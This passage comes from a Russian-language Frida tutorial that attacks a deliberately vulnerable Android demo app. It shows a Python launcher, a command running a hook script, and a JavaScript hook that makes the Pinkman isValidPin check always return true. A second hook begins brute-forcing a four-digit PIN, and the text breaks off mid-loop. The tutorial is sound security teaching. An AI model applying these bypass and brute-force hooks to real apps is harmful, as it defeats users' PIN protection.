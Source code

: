 ```python
    device = frida.get_usb_device()
    pid = device.spawn([package])
    device.resume(pid)
    time.sleep(1)

    session = device.attach(pid)

    script = session.create_script(open(hook).read())
    script.on("message", on_message)
    script.load()

    input()

if __name__ == '__main__':
    run_hook()
```
А запустить хук можно таким образом
```bash
$ python hook.py -p com.redmadrobot.vulnerableapp -h hooks/intercept_apikey.js
```
Но с помощью фриды можно делать вещи поинтереснее чем просто перехватывать результаты функции. В приложении есть экран ввода пинкода и мы попробуем поломать его двумя способами:

- подменить возврат валидатора пинкода чтобы любой пинкод был валидным
- подобрать реальный пинкод с помощью брутфорса

Чтобы решить обе эти задачи нам нужно работать с вызовом метода валидации. В данном приложении он обмазан корутинами и захукать его довольно сложно... было бы =) Но я знаю внутренние детали реализации, и поэтому могу обратиться к сразу к синхронному методу и работать уже с ним.
```jsx
console.log("[*] Hook is loaded");

Java.perform(function () {
    console.log("[*] Run instrumentation");

    var pinkman = Java.use("com.redmadrobot.pinkman.Pinkman");

    pinkman.isValidPin.implementation = function (arg) {
        console.log("[*] Call isValidPin()");

        return true;
    }
});
```
Теперь займемся брутфорсом. Нам нужно захукать тот же самый метод, но немного видоизменить наш хук добавить непосредственно процедуру подбора в случае если попытка не удалась:
```jsx
console.log("[*] Hook is loaded");

Java.perform(function () {
    console.log("[*] Run instrumentation");

    var pinkman = Java.use("com.redmadrobot.pinkman.Pinkman");
    var pinString = Java.use("java.lang.String");

    pinkman.isValidPin.implementation = function (arg) {
        console.log("[*] Call isValidPin()");

        var ret = this.isValidPin(arg);

        if (!ret) {
            console.log("[*] Starting bruteforce...");
            for (var i = 0; i <= 9999; i++) {
                var pin = (i + 100000).toString().slice(-4);

```